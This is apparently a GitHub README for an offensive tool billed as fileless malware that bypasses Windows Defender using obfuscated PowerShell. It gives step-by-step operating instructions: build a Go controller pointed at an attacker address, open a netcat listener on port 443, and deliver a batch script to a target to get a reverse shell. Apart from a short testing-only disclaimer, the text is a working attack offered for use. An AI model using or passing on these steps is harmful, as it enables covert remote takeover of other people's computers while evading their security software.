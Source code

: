 # UpdateScript-v1.2

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/BFVzmZXIbQk

Setup is simple.<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build `SecUp.go`<br>
`go build SecUp.go`
3. From terminal, run: ./SecUp <LHOST><br>
`dlowrie@kali:~/Tools/update_script$ ./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Back at the SecUp terminal<br>
`Press ENTER to continue...`
6. Upload and execute `update_script.cmd` to target any way you like<br>

7. Shellz
<P></P>
If you don't want to build SecUp, then that's OK.<br>
I've put a compiled binary for Linux users in the repo.<br>
In that case you can skip step 2

<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>



https://user-images.githubusercontent.com/19762230/132001237-04ae01ae-102e-4070-9599-ad05128c3f73.mp4


